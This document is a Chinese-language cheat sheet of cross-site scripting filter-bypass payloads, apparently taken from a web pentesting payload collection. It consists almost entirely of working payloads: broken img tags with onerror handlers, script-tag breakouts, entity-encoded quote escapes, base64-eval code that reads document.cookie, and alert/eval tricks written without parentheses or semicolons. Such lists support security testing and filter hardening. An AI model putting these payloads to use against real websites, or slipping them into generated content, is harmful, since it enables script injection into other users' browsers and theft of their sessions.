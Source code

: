 ### 不完整的html标签绕过XSS黑名单

限 IE/Firefox/Chrome/Safari 浏览器

```javascript
<img src='1' onerror='alert(0)' <
```

### 不使用双引号的payload 双引号被过滤

```javascript
String.fromCharCode(88,83,83)
```

### 绕过script标签中的双引号

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

### 绕过MouseDown事件中的双引号

您可以在onmousedown事件中使用以下payload绕过双引号

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
```


将IP地址转换为10进制形式 `http://192.168.1.1` == `http://3232235777`
http://www.geektools.com/cgi-bin/ipconv.cgi

```javascript
<script>eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))<script>
```

使用eval执行base64编码payload `echo -n "alert(document.cookie)" | base64` == `YWxlcnQoZG9jdW1lbnQuY29va2llKQ==`

### 绕过括号

```javascript
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
```

### 绕过括号和分号

```javascript
// From @garethheyes
<script>onerror=alert;throw 1337</script>
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>

// From @terjanq
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>

// From @cgvwzq
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```
